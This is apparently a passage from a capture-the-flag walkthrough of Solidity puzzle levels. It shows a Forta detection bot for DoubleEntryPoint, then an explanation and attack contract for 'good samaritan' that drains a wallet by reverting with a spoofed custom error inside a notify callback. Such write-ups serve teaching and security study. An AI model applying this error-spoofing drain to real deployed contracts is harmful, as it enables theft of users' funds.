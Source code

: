 Create a Bot which raises alert regardless of the call and that's it.

```solidity
contract Bot is IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external {
        Forta forta = Forta(msg.sender);
        forta.raiseAlert(user);
    }
}
```

```javascript
const Bot = await hre.ethers.getContractFactory("Bot");
bot = await Bot.deploy()
await bot.deployed();

dep = DoubleEntryPoint.attach(INSTANCE_ADDRESS);
forta = Forta.attach(await dep.forta());

tx = await forta.setDetectionBot(bot.address); 
await tx.wait()
```

---

## good samaritan

Goal is to drain the funds from `Wallet`

wallet's `transferRemainder` transfers all the tokens but is only called when player request donation via `requestDonation` and wallet raises `NotEnoughBalance()` error.

The error is raised only when balance of coin is less than 10. To drain funds we need to raise the error even when the funds are not less than 10. 

If tokens are not less than 10, `Coin` contract notify the requesting address if the that address is a contract. We can use this external call to game the contract.

We can create a new contract to request donation which reverts on notify but it won't work because even `transferRemainder` will trigger notify, we shouldn't throw error at this point otherwise the transaction will revert. To bypass this issue, I checked the amount being transfered and selectively throw error.

```solidity
contract SamaritanHack is INotifyable{
    error NotEnoughBalance();
    function notify(uint256 amount) external {
        if(amount == 10){
            revert NotEnoughBalance();
        } 
    }

    function requestDonation(address instance) external {
        GoodSamaritan sm = GoodSamaritan(instance);
        sm.requestDonation();
    }
}
```
